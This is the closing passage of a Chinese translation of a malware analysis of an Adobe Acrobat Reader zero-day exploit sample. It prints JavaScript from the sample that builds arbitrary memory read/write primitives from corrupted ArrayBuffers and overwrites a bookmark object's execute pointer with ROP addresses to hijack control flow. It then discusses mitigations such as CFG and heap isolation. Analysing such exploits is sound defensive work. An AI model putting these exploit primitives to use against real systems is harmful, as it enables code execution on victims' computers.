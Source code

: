 现在，在找到所需的ArrayBuffer之后，就可以使用它来覆盖其相邻部分，覆盖的大小也就是ArrayBuffer的字节长度。随后，会检查下一个ArrayBuffer是否具有匹配的字节长度，如果是，就证明它们已经具有完整的读写原语。

```
function myread(addr)`{`
    mydv.setUint32(mypos,addr,true);
    var res = myarray[0];
    mydv.setUint32(mypos,myarraybase,true);
    return res;
`}`

function mywrite(addr,value)`{`
    mydv.setUint32(mypos,addr,true);
    myarray[0] = value ;
    mydv.setUint32(mypos,myarraybase,true);
`}`
```

到了这里，游戏已经结束。本来攻击者只进行了一次数据攻击，但由于Acrobat Reader不具有控制流保护（Control Flow Guard，CFG），因此他们选择了传统的调用门控制流（Call Gate Control Flow）。首先，找到EScript.api并得到了DLL的基地址，然后使用一个DLL加载程序存根（DLL Loader Stub）创建了一个ROP链，重写了书签对象的执行函数指针，最终重定向了执行流。

```
var bkm = this.bookmarkRoot;        
var objescript = 0x23A59BA4 - 0x23800000 + dll_base;
objescript = myread(objescript);

...

mywrite(objescript, 0x6b707d06 - 0x6b640000 + dll_base); 
mywrite(objescript+4,myarraybase);
mywrite(objescript+0x598,0x6b68389f - 0x6b640000 + dll_base);

// adios!
bkm.execute();
```



## 总结

对于攻击者来说，Adobe Acrobat Reader仍然是一个很好的目标，因为JavaScript对于ArrayBuffers的控制非常灵活，并且PDF解析过程非常复杂。此外，在操作系统层面上进行缓解只能产生很小的影响，所以Adobe也在努力加固其二进制文件（ /GUARD:CF ），从而使得漏洞开发过程更加艰难。<br>
其实，如果Adobe启用了控制流保护（CFG），并开发一种堆隔离技术（Isolated Heap），就像他们已经在Flash中采用的措施一样，那么这个漏洞可能会更加难以利用。<br>
如前文所述，我们认为目前这种漏洞利用样本还处于开发阶段，因为在样本中，没有对JavaScript进行任何模糊处理。并且我们认为，在JP2KLib.dll中还存在着更多其他漏洞。



## 参考文章

[https://www.welivesecurity.com/2018/05/15/tale-two-zero-days/](https://www.welivesecurity.com/2018/05/15/tale-two-zero-days/)
